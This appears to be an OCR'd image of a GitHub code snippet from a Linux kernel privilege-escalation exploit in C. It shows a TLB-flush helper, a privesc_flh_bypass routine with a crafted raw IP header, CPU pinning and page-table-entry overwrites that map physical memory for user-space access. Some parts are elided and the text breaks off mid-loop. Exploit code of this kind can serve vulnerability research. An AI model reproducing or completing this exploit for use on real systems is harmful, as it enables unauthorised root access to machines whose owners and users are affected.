 ```c
static void flush_tlb(void *x, void *addr, size_t len)
{
	short *status;

	status = mmap(NULL, sizeof(short), PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);

	*status = FLUSH_STAT_INPROGRESS;
	if (fork() == 0)
	{
		munmap(addr, len);
		*status = FLUSH_STAT_DONE;
		PRINTF_VERBOSE("[*] flush tlb thread gonna sleep\n");
		sleep(9999);
	}

	SPINLOCK(*status == FLUSH_STAT_INPROGRESS);

	munmap(status, sizeof(short));
}

static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
		pin_cpu(1);

		// ... ()

		// pud will be allocated and populated
		SPINLOCK(memdump_info->mem_status == MEM_STAT_DO_IO);

		flush_tlb(memdump_info, pmd_area, 0x200000);

		//printf("[*] PTE for PUD page: %016llx\n", pmd_area[0]);
		printf("[*] PTE for PMD page: %016llx\n", *(unsigned long long*)pmd_area);

		// this supports physical memory of (CONFIG_PHYSICAL_START * 512) bytes, i.e. (0x1000000 * 512) = 8GiB, can upped if necessary by just looping the code on both threads
		for (unsigned short j=0; j < 512; j++)
			pmd_area[j] = (CONFIG_PHYSICAL_START * j) | 0x8000000000000867;
		
		// will deadlock when other process completes
		while (1) {
			memdump_info->mem_status = MEM_STAT_DO_IO;
```